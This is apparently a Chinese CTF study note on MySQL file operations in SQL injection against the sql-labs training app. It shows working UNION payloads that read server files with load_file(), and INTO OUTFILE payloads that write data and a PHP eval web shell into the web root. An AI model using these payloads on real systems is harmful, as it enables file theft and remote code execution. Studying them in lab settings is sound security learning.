 # 1.导出文件

load_file():

读取文件内容并将文件内容作为一个字符串返回。在网络安全中可用来读取服务器文件。

如：

```javascript
union select 1,1,load_file(CHAR(72, 58, 92, 87, 87, 87, 92, 102, 
108, 97, 103, 46, 112, 104, 112))--+
```

注:CHAR(72, 58, 92, 87, 87, 87, 92, 102, 108, 97, 103, 46, 112, 104, 112)="H:\WWW\flag.php"

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/mysql注入语法基础/mysql文件操作/images/66B3876071A44D67943EA06F9366267Fclipboard.png)



# 2.文件导入到数据库

```javascript
load data infile FILE_PATH into table TABLE_NAME(COLUMN_NAME)
```

列如：load data infile "H:\WWW\\flag.php" into table users(username);

将flag.php文件中的内容读取到users表username字段中。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/mysql注入语法基础/mysql文件操作/images/758545ECEA954996A4CA06CE0C45D5F1clipboard.png)



# 3.数据导入到目录下文件

```javascript
select 'STRING' into outfile 'FILE_NAME'
```



## 3.1将需要查询的信息保存到txt文件中直接访问。

例如：

http://127.0.0.1/sql-labs/Less-7/?id=1'))union select 1,2,version() into outfile "H:\\WWW\\sql-labs\\Less-7\\1.txt"--+

注意：file_path需要路径需要转义H:\\WWW\\sql-labs\\Less-7\\1.txt（试了好几次才成功，不懂😭）



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/mysql注入语法基础/mysql文件操作/images/376000C493934BB5A20D21CF49E927D5clipboard.png)



## 3.2写入一句话木马。

例如：

```javascript
http://127.0.0.1/sql-labs/Less-7/?id=1'))union select 1,2,
'<?php @eval($_post["mima"])?>' into outfile 
"H:\\WWW\\sql-labs\\Less-7\\shell.php"--+
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/mysql注入语法基础/mysql文件操作/images/FF5EF44BCD1848CE84469385A7DCC1A0clipboard.png)

